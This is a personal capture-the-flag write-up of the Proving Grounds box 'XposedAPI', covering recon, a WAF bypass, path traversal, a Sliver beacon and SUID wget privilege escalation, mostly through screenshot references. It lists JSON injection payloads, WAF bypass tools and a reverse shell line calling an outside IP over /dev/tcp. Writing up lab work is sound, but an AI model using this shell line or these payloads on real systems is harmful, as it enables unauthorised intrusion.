 # XposedAPI Writeup

Name: XposedAPI
Date:  4/11/2023
Difficulty:  Intermediate
Goals: 
- TJNULL clearance
Learnt:
- API routes are more important than an endpoint, but understanding the endpoint is more important that any route.
- I am so close to not rabbit holing
- None of these boxes from Proving Ground ever make you spray users and password  
Beyond Root:
- Write some C and use make some how twinned with [[Sybaris-Helped-Through]]

- [[XposedAPI-Notes.md]] - tried to just hack the machine and not worry about noting just screenshotting everything 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/XposedAPI/Screenshots/ping.png)

Checking port 13337 with `curl`
![](curlingtheapi.png)

Collection the routes to ingest in the automating the content discovery if required
![](initialroutes.png)

We are denied by the WAF
![](wafonlogs.png)
Failed bypass attempt - I forget about `X-Forwarded-For:`, but I was in the correct direction
![](nohostbypasswafonlogs.png)

![](gobustertheroutes.png)

Version 
![](apiversion.png)

Breaking JSON for the error 
![1080](checkingforzerourlfiltering.png)

Invalid user, we need a user...
![](invalidusername.png)
Hitting the wall of the API
![](timeoutgobuster.png)

Trying harder to get by without a username:
HackTrick API 
```json
{"user" :"gunicorn", "url":  "/logs",}
{"user" :true, "url":  "/logs",}
{"user" :null, "url":  "/logs",}
{"user" :1, "url":  "/logs",}
{"user" :[true], "url":  "/logs",}
{"user" :["gunicorn", true], "url":  "/logs",}
{"user" :$neq:"gunicorn", "url":  "/logs",}
// Send array 
{user=gunicorn, "url":  "/logs",}
```
- tried also www-data, root
- checked hints names confirming RCE which seems obvious but time 
- took hint:
	- One endpoint has a vulnerability you need to leverage to exploit another endpoint. Find a username.

![](trueuser.png)
...
![](nulluser.png)
...
![](1user.png)
...
![](sqauretrueuser.png)
...
![](squaretrueadminuser.png)
...
![](neqgunicornuser.png)
...
![](arrayuser.png)

Did not find any users with `ffuf`
![](ffufusers.png)

Tried to overflow the application encase it is a buffer overflow mostly for completionism's stake
![](aaaaaaaaaaausername.png)

Tried encoding a breaking the strings quotes
![](nobreakyjson.png)

Tried wildcards for /log route to bypass the WAF and get some logs
![](wildcardlogs.png)
...
![](percentlogs.png)
...
![](underscorelogs.png)
...
![](dotlogs.png)
...
![](wilddotlogs.png)

Tried arjun to brute force any obvious parameters I may have missed and just to test it
![](tryingarjun.png)

Tried a tool to enumerate the WAF
![](wafw00ftest.png)

## Exploit

At this point I took a hint: which I forget to copy down, but essentially it said something about RCE, but another endpoint will help get a username.  

https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/
```
[**w3af**](https://github.com/andresriancho/w3af) — Web Application Attack and Audit Framework

[**wafw00f**](https://github.com/EnableSecurity/wafw00f) — Identify and fingerprint Web Application Firewall

[**BypassWAF**](https://github.com/vincentcox/bypass-firewalls-by-DNS-history) **–** Bypass firewalls by abusing DNS history. This tool will search for old DNS A records and check if the server replies for that domain. 

[**CloudFail**](https://github.com/m0rtem/CloudFail) – is a tactical reconnaissance tool that tries to find the original IP address behind the Cloudflare WAF.
```

Dorked bypassing WAF and we were successful
![](bypassingthewaf.png)

We have a path traversal vulnerability for the `/etd/passwd`: 
![](HORAH.png)

Trying with the username `clumsyadmin` for a new response from invalid user.
![](usernamegained.png)
## Foothold

And then the out of band file retrieval and happy I have memorise the differences in terminology for in and out of band attack dichotomy. 
![](justmiter.png)

Sliver beacon by way of updating the application with `/restart` API endpoint. 
![](sliveringtofoothold.png)

## Privilege Escalation

Ran linpeas and almost instantly found the `wget` GTFObin.
![](suidwget.png)

And we are root.
![](root.png)

## Post-Root-Reflection  

I did not use noting for this box. I just tried changing up to more improvised methodology to tried to avoid rabbit holes of service enumeration overload and because I had worked ten hours starting at 5 am and limited sleep. Slept after work and just calmly finished this machine in the 3 hours.

## Beyond Root

Understanding `make` - why does `system("/bin/bash -i >& /dev/tcp/192.168.45.225/6379 0>&1",NULL,NULL);` not work. Twinned with [[Sybaris-Helped-Through]]
```
make -C ./src
```

How to avoid the situation prioritising focusing on contextual awareness over the tried and tested methods or historical?